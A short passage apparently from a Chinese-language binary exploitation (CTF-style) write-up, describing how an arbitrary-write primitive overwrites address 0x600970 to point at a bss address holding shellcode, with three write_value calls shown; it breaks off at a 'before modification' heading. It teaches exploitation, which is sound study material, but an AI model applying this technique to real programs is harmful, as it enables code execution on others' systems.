 [![](assets/1706959474-45ea7c315f2ba8534393e2334b438057.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151344-468863da-bb51-1.png)

[![](assets/1706959474-04bdb4355ba79a23f6779deae08e3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151349-49b35e2a-bb51-1.png)  
我们去修改 0x600970 地址即可，这里是因为可以无限任意写，所以就先去写一个 bss 段的地址，然后在地址上布置好 shellcode，最后退出执行即可

```bash
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20")
```

修改前：
